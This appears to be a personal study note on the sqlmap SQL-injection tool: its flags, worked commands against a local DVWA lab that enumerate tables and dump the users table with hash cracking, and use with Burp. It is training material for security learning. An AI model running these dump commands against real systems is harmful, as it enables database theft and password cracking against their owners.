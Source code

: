 [Sqlmap]: https://github.com/sqlmapproject/sqlmap
[Sqlmap Introduction]: https://github.com/sqlmapproject/sqlmap/wiki/Introduction
[Usage]: https://github.com/sqlmapproject/sqlmap/wiki/Usage

### Table of Contents
1. What SQLMAP Will Do 
2. Usage
3. Example DVWA
4. SQLMAP + Burp

`pip3 install sqlmap`

------------------------------------------------------------
------------------------------------------------------------

### What SQLMAP Will Do
1. Identify the parameters to test
  + In this case `id`
2. Identify _SQL Injection_ **techniques** to use
3. Fingerprint the _back-end DBMS_ (go gather info)
4. Attempt to _exploit vulnerabilities_

------------------------------------------------------------
------------------------------------------------------------

### Usage
+ `--wizard` flag will **help for beginners**
+ `-h` help output
+ `--batch` use _default behavior_

+ `-u URL` the URL
+ `--cookie=COOKIE` HTTP Cookie header value
 - Use _Firefox Developer Tools_
  * Click on _Network_ Tab on top of dev tools
  * Click on _Cookies_ or right hand side
 - Can also use `BURP`
+ `-p TESTPARAMETER` testable parameter(s)
+ `-r REQUESTFILE`   Load HTTP request from a file

**ENUMERATION**
_What to do_ and _what to return_ if there **is a SQLi exploit**

+ `--tables` enumerate DBMS database tables
+ `-T TBL`   DBMS database table(s) to enumerate
+ `--columns` enumerates DMBS database columns
+ `-C COL`   DBMS database column(s) to enumerate
+ `--current-user` retrieve DBMS current user
+ `--dump` Dump DBMS database table entries

------------------------------------------------------------
------------------------------------------------------------

### Example DVWA
URL: `127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit#`

```SQLMap_Cmd
sqlmap -u "127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="PHPSESSID=<id>; security=low" --tables
```

```SQLMap_Dump_Users_Table
sqlmap -u "127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="PHPSESSID=<id>; security=low" --columns -T users
```

```SQLMap_Dump_Users_Table
sqlmap -u "127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit#"
--cookie="PHPSESSID=<id>; security=low" --dump -T users
```
+ Will ask if i want to store hases to a temp file
+ Will ask if i want to crack them via dictionary-based attack

------------------------------------------------------------
------------------------------------------------------------

### SQLMAP + Burp

**Burp -> Sqlmap**
[Tutorial]: https://www.youtube.com/watch?v=_j5gOeUArYI
+ Use the `-r` flag in `sqlmap`
+ Use the `-p` flag in `sqlmap`

```Example_Command_Example
sqlmap -r request_file_from_burp -p parameter_name --dump
```

- - - - - - - - - - - - - - - -

**SQLMap -> Burp**
[Tutorial 1]: https://www.youtube.com/watch?v=auew7v2nTJc

Extension Name: `SQLiPy Sqlmap Integration`

+ Right Click a request
+ Click `SQLiPy Scan`
+ This should take you to the `SQLiPy` tab
 - there's a list or _radio buttons_ of what I want
  * Like the current user

------------------------------------------------------------
------------------------------------------------------------
